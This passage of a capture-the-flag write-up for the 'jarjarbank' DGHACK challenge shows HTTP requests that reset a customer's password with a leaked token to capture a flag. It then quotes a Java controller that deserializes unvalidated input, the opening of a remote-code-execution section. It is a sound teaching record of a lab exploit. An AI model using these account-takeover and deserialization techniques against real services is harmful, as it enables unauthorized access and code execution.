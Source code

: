 Reset the password of the customer account using the token: 

```
POST /api/v1/user/savePassword HTTP/1.1
Host: jarjarbank.chall.malicecyber.com
Content-Type: application/json
[...]

{"token":"04CgzNqCoaAufWSxUQQnayPJVV4CuTeN","newPassword":"xyz"}
```

Log into the custom account and get the first flag:

```
GET /api/v1/flag/getFirstFlag HTTP/1.1
Host: jarjarbank.chall.malicecyber.com
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJE...
[...]
```

> `Congratz ! Here is your first flag: DGHACK{F1l3_r34d_l0gs_t0_4cc0unt_t4k30v3r}. Keep digging and you'll find another flag :)`

## RCE using deserialization

> **TL;DR** Exploit a Java unprotected deserialization vulnerability to obtain Remote Code Execution.

Later on, we will discover that the route `/api/v1/transaction/import?transaction=<INPUT>` involves deserialization of the `SignedObject` using the input provided.

```java
@RequestMapping({"api/v1/transaction"})
@RestController
public class TransactionRestController {
    // ...
    @RequestMapping({"/import"})
    public ResponseEntity<?> importTransaction(HttpServletRequest request) {
        ResponseEntity<?> response;
        String transactionData;
        try {
            LOGGER.info(String.format("New transaction import from ip: '%s'", request.getRemoteAddr()));
            transactionData = request.getParameter("transaction");
        } catch (Throwable th) {
            // ...
        }
        Transaction transactionToImport = (Transaction) TransactionAPI.getTransaction(transactionData);
        response = ResponseEntity.ok(transactionToImport);
        return response;
    }
}
```
